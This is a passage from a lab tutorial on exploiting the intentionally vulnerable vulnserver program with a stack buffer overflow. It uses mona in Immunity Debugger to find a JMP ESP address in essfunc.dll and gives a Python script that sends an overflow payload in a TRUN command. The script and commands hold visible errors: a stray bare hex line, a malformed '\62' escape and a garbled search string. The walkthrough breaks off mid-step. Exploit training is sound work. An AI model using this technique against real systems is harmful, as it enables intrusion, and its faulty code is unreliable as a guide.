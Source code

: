 What we are saying in finding the right module is that we are looking for a DLL or something similar inside of a program that has no memory protection.

### Practicals

- On your windows machine go to your browser and download this [file](https://github.com/corelan/mona/blob/master/mona.py)
- Copy the file to this location `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands` and save it
- Now open immunity debugger and attach vulnserver
- On the little command bar down immunity debugger type in `!mona modules` and you should a pop-up with green text over dark screen

![](https://i.imgur.com/9Iohr5p.png)

![](https://i.imgur.com/19zh7e6.png)

- What we are looking for are rows with the `False` statement all through and `.dll` (keep this information for now)

![](https://i.imgur.com/QR7wUnD.png)

- The next thing to do is to find the **hex code equivalent of a jump** , to do this:
	- Goto your kali terminal and locate `nasm_shell.rb`
	- Copy the output and paste on your terminal, then click enter

![](https://i.imgur.com/pzDMUSn.png)

- What we are trying to do is convert assembly language into hex code, type in `JMP ESP` on your terminal which is a jump command

![](https://i.imgur.com/gatZgbH.png)

So the hex code equivalent of `JMP ESP` is `FFE4` 

- We will go back to our immunity debugger and type in this command `!mona find -s "x\ff\e4" -m essfunc.dll` , make sure there is a "\x" followed by two pairs of hex in other to separate the hex in `"\xff\xe4"` and also the major reason why we are using **essfunc.dll** is because that is the program that has the False statement all through in a row , Now click enter

![](https://i.imgur.com/2iJD21A.png)

The highlighted box result is what we are more interested in, so go back to your terminal and exit the nasm_shell.rb  , Now copy this python code and save it

```python
#!/usr/bin/python
 
import sys, socket

625011af

# replace 2003 with the offset you got 
shellcode = "A" * 2003 + "\xaf\x11\x50\62"

try: 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.0.106',9999))
        s.send(('TRUN /.:/' + shellcode))
        s.close()

except:
        print ("Error Connecting to the server")
        sys.exit()
```

- First of all if you notice in this script we have a standalone hex which is `625011af` gotten from the first result in the highlighted box we mentioned earlier and as you can se down the image below `0x` was stripped off
![](https://i.imgur.com/KvpK6R7.png)

- then the line `shellcode = "A" * 2003 + "\xaf\x11\x50\62"` in which A is sent 2003 times with the TRUN command and the `"\xaf\x11\x50\62"` is still the number we had but starting from the back with \x (because of some x86 architecture) 

Now navigate back to immunity debugger and minimize the tab and maximize it back to clear the command output center

![](https://i.imgur.com/87DKyzx.png)


	Click on the blackish right arrow on the tools bar and you should see an enter expression tab, then enter our jump code which is 

![](https://i.imgur.com/lDMN3pM.png)




